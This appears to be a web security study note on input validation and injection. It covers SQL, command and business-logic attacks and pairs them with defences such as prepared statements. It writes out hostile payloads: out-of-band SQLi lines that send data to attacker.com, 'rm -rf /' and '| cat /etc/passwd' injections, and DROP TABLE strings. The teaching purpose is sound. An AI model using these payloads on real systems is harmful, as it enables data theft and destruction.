

---
[🏠 Home](../../../../README.md) / [🌐 Web Application Security](../) / [🛡️ Input Validation & Injection](./notes.md)

[⬅️ Previous](../0.6-trust-identity-concepts/notes.md) | [➡️ Next](../1.2-cross-site-scripting/notes.md)
---

# 📌 1.01 Input Validation & Injection

## 🔍 What is Input Validation & Injection?
Input validation is the process of ensuring user-provided data is clean, correct, and safe before processing. Injection vulnerabilities occur when untrusted input is interpreted as code or commands by the application, leading to attacks like SQL Injection, Command Injection, and more.

---

## 🚨 Why It Matters
Failing to validate input properly can lead to:
- SQL Injection
- Command Injection
- Cross-Site Scripting (XSS)
- Path Traversal
- Local/Remote File Inclusion
- Buffer Overflow

---

## 🧪 Types of Validation

| Type | Description |
|------|-------------|
| **Whitelist** | Only allow defined, expected values (most secure) |
| **Blacklist** | Disallow known bad values (bypassable) |
| **Length checks** | Enforce size constraints |
| **Format checks** | Validate pattern using regex (e.g., email, phone) |
| **Type checks** | Enforce input types (e.g., number, string, boolean) |
| **Encoding checks** | Ensure no untrusted control characters are accepted |

---

## 🔐 Security Best Practices

- Always validate on the **server side**
- Use built-in validation libraries
- Normalize input before validation (trim, decode)
- Don't rely on client-side validation for security
- Apply contextual output encoding (e.g., HTML, JS, SQL)

---

## 🛠️ SQL Injection

SQL Injection is a vulnerability that occurs when user input is improperly handled and injected directly into a SQL query. This can allow attackers to view, modify, or delete sensitive data, bypass authentication, or even execute system-level commands.

### In-Band SQLi (Error-Based, Union-Based)
The attacker uses the **same communication channel** to both launch the attack and gather the results.

- **Error-Based SQLi**: Relies on database error messages to extract data  
  _Example_: `' OR 1=1 ORDER BY 100--` (triggers error if column doesn't exist)

- **Union-Based SQLi**: Uses the `UNION` keyword to combine results of two queries  
  _Example_: `' UNION SELECT username, password FROM users--`

> 🧠 Note: In-Band SQLi is usually easy to detect because results are returned in the application response.

---

### Inferential SQLi (Boolean-Based, Time-Based)
The attacker **doesn't get direct output** but observes app behavior (true/false responses, delays) to infer backend data.

- **Boolean-Based Blind SQLi**  
  Alters query logic to observe differences in the application's response.  
  _Example_: `' AND 1=1 --` → returns normal page  
  _Example_: `' AND 1=2 --` → may trigger error or blank page

- **Time-Based Blind SQLi**  
  Injects delays to test conditions when visual feedback isn't available.  
  _Example_: `' OR IF(1=1, SLEEP(5), 0) --` (MySQL)  
  _Example_: `' OR pg_sleep(5) --` (PostgreSQL)

> 🧠 Note: Boolean-based SQLi relies on application response content. Time-based relies on response delay patterns.

> 💡 Tools like SQLMap can automate boolean/time-based inference and database extraction.

---

### Out-of-Band SQLi
Used when the attacker cannot see output directly or observe timing. Leverages external services like DNS or HTTP callbacks.

- _Example_: `'; SELECT load_file('\\\\attacker.com\\leak') --`

> 🔍 **Out-of-Band SQLi Summary**  
> - **What is it?**: OOB SQLi is used when attackers cannot use the same channel to exfiltrate data (e.g., no error or timing feedback).  
> - **How it works**: The database sends data to an external server controlled by the attacker, often using DNS or HTTP requests.  
> - **Payload Examples**:
>   - **MSSQL**: `'; exec master..xp_dirtree '\\attacker.com\test' --`
>   - **Oracle**: `'; UTL_HTTP.REQUEST('http://attacker.com/leak') --`
>   - **MySQL**: `'; SELECT LOAD_FILE('\\\\attacker.com\\leak') --`
> - **When used**: Useful when UNION, error, and time-based SQLi aren't viable.  
> - **Defenses**:
>   - Disable dangerous functions like `LOAD_FILE`, `xp_cmdshell`, `UTL_HTTP`, etc.  
>   - Restrict outbound network access from the database server.  
>   - Use strict input validation and parameterized queries.

> 🧠 Note: This method requires features like `load_file`, `xp_dirtree`, or DNS lookups to be enabled in the DBMS.

---

### Second-Order SQLi

Second-order SQLi occurs when malicious input is stored by the application (e.g., in a database) and later used unsafely in a different SQL context.

**How It Works:**
- Attacker submits payload in a **non-executing context** (e.g., signup form, profile update).
- Later, the app **retrieves and uses** that stored data in a vulnerable SQL query **without sanitization**.
- The SQLi is triggered **indirectly**, making detection harder.

**Example Scenario:**
1. User signs up with a username:  
   `'admin' --`  
   (no attack triggered here)  
2. Later, the app runs:  
   ```sql
   SELECT * FROM users WHERE username = '$stored_username'
   ```
   → SQLi triggers here when `$stored_username` is inserted unsanitized.

**Challenges:**
- Harder to detect during testing (no immediate feedback)
- Exploitation depends on internal workflows or re-use of data

**Defenses:**
- Sanitize and validate **both at input and output** stages
- Use **parameterized queries** always, even when reusing stored values
- Audit flows where stored data is later injected into queries

---

## 🛠️ Command Injection

Command Injection occurs when user input is passed directly to a system shell or OS command interpreter without proper sanitization, allowing arbitrary command execution.

### 🔍 How It Happens

Many backend scripts use commands like `ping`, `ls`, `cat`, etc., and naively embed user input into these commands.

```bash
# Vulnerable Bash example
ping $user_input
```

If `user_input = 8.8.8.8; rm -rf /`, the executed command becomes:
```bash
ping 8.8.8.8; rm -rf /
```

---

### 🚨 Real-World Examples

- `curl http://example.com?ip=8.8.8.8;whoami`
- Form fields that accept hostnames, filenames, or paths
- Misuse of `os.system()`, `Runtime.exec()`, or `ProcessBuilder` in code

---

### ⚒️ Common Sinks

| Language | Vulnerable Function(s)             |
|----------|------------------------------------|
| Bash     | Direct CLI calls (`ping`, `cat`)   |
| Python   | `os.system`, `subprocess.call`     |
| PHP      | `exec()`, `shell_exec()`, `system()` |
| Java     | `Runtime.getRuntime().exec()`      |

---

---

## 🛡️ Unified Defenses for Injection Attacks

### 🔐 General Best Practices

- Treat **all input as untrusted**
- Enforce **strict validation** with allowlists
- Normalize and sanitize inputs (trim, decode, type check)
- Apply **context-aware output encoding** (e.g., HTML, SQL, JSON)

### 🧱 SQL Injection Defenses

- Always use **parameterized queries** or **ORMs** with bound parameters

---

## ✅ Prepared Statement with Parameters

A **Prepared Statement** is a SQL query that uses **placeholders** instead of embedding user input directly in the query string.

This technique ensures that user input is treated as **data only**, not executable code — making it one of the **most reliable defenses against SQL Injection (SQLi)**.

---

### 🛡 Why It Works

- The SQL engine **compiles the query structure first**, before any user input is seen.
- Inputs are **bound to placeholders** (`?`, `$1`, `:name`, etc.), not concatenated into the SQL string.
- This guarantees that the input **cannot modify the query logic**, no matter what data is provided.

---

### ⚙️ Internal Workflow (Generic Flow)

1. **Prepare the query (with placeholders):**
   ```sql
   SELECT * FROM users WHERE email = ?
   ```

2. **Bind user input to the placeholder:**
   ```pseudo
   bind_param(1, user_input)
   ```

3. **Execute safely:**
   ```pseudo
   result = statement.execute()
   ```

---

### 🔒 Key Benefit

This approach **fully separates code and data**, eliminating the possibility of injection — even with malicious input like:
```sql
' OR 1=1 --
```
This will be treated as a literal string, **not as part of the query logic**.

---

> 🚫 Never build SQL queries using string concatenation.  
> ✅ Always use parameterized queries via Prepared Statements or ORMs with bound parameters.

---
- Avoid constructing raw SQL with user input
- Use **least privilege** for DB accounts
- Monitor for anomalies with **WAFs** or query logs

### 🖥️ Command Injection Defenses

- **Never concatenate input into shell/system calls**
- Use language-safe wrappers (e.g., `subprocess.run(..., shell=False)`)
- Sandbox command execution with `AppArmor`, `seccomp`, or containers
- Disable dangerous interpreters in production (e.g., Bash, Perl)

---

## 🧪 Labs and Further Reading

- [PortSwigger: OS Command Injection Labs](https://portswigger.net/web-security/os-command-injection)
- [TryHackMe: Command Injection](https://tryhackme.com/room/commandinjection)
- [HackTricks: Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [PortSwigger SQLi Labs](https://portswigger.net/web-security/sql-injection)
- [TryHackMe SQLi Room](https://tryhackme.com/room/sqlinjection)

# 🧠 Business Logic Input Abuse

Business Logic Vulnerabilities arise when attackers misuse an application's intended workflow to perform unauthorized actions — **without breaking any technical control**.

---

## ⚠️ Real-World Examples

- **Coupon replay**: Reusing discount codes
- **Race condition**: Fast checkout before price update
- **Password reset bypass**: Skipping OTP verification
- **Role escalation**: Changing `role=user` to `role=admin`
- **Refund abuse**: Issuing refunds on consumed services

---

## 🧪 Common Attack Vectors

- Parameter tampering (`price`, `role`, `status`)
- API call reordering / workflow skipping
- Rate abuse (referrals, logins, redemptions)

---

## 🔍 Red Flags

- Hidden form field reliance
- Missing server-side step validation
- Insecure assumptions in multi-step flows

---

## 🛡️ Defenses

- Server-side state enforcement
- Strong validation of each step
- Authorization for every action
- Anomaly detection in workflows

---

## ✅ Interview Example

**Q:** What if OTP validation is skipped via direct POST?

**A:** The attacker resets the victim's password → **Account Takeover**  
**Fix:** Enforce server-side state + OTP binding before action.

## 🗺️ Attack Flow (SQLi Example)


## 🧪 Common Payloads

- **SQLi:** `' OR '1'='1`, `admin'--`, `'; DROP TABLE users;--`
- **NoSQLi:** `{"$ne": ""}`, `{"username": {"$gt": ""}}`
- **SSTI:** `{{7*7}}`, `${7*7}`
- **Command Injection:** `8.8.8.8; whoami`, `| cat /etc/passwd`
- **Path Traversal:** `../../etc/passwd`

## 🖥️ Server-Side vs Client-Side Validation

- **Client-Side:**  
  - Improves UX, but can be bypassed (e.g., by disabling JS or using tools like Burp Suite).
  - Never trust client-side validation for security.
- **Server-Side:**  
  - Always required for security.
  - Enforces business rules, data types, and context-aware checks.

## 🛡️ Remediation & Best Practices

### 🔒 General Defenses
- Treat all input as untrusted.
- Use allowlists (whitelists) for validation.
- Normalize and sanitize input (trim, decode, type check).
- Apply context-aware output encoding (HTML, SQL, JSON, etc.).

### 🧱 SQL Injection
- Always use **parameterized queries** or **ORMs** with bound parameters.
- Never build SQL queries using string concatenation.
- Use least-privilege DB accounts.
- Monitor for anomalies (WAF, query logs).

#### ✅ Example: Prepared Statement
```sql
SELECT * FROM users WHERE email = ?
```
```python
cursor.execute("SELECT * FROM users WHERE email = ?", (user_input,))